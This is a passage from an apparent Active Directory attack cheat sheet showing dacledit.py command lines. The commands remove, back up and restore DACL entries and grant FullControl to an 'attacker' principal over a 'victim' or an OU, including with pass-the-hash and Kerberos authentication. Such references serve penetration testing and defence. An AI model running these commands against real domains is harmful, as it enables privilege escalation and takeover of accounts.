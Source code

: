 ### Removing ACEs
```bash
# Remove FullControl ACE
python3 dacledit.py domain.local/user:password -action remove -target victim -principal attacker -rights FullControl

# Remove ResetPassword ACE
python3 dacledit.py domain.local/user:password -action remove -target victim -principal attacker -rights ResetPassword

# Remove specific ACE by GUID
python3 dacledit.py domain.local/user:password -action remove -target victim -principal attacker -rights-guid custom-guid
```

### DACL Backup and Restore
```bash
# Backup DACL to file
python3 dacledit.py domain.local/user:password -action backup -target victim -file victim_dacl_backup.json

# Restore DACL from file
python3 dacledit.py domain.local/user:password -action restore -target victim -file victim_dacl_backup.json

# Backup with specific filename
python3 dacledit.py domain.local/user:password -action backup -target "Domain Admins" -file domain_admins_backup.json
```

### Advanced Usage
```bash
# Use LDAPS connection
python3 dacledit.py domain.local/user:password -use-ldaps -target victim -principal attacker

# Use NTLM hash authentication
python3 dacledit.py domain.local/user -hashes :ntlmhash -target victim -principal attacker

# Use Kerberos authentication
python3 dacledit.py domain.local/user -k -target victim -principal attacker

# Enable inheritance for container objects
python3 dacledit.py domain.local/user:password -action write -target-dn "OU=Users,DC=domain,DC=local" -principal attacker -rights FullControl -inheritance

# Create denied ACE instead of allowed
python3 dacledit.py domain.local/user:password -action write -target victim -principal attacker -ace-type denied -rights FullControl
```

## Attack Chain Integration
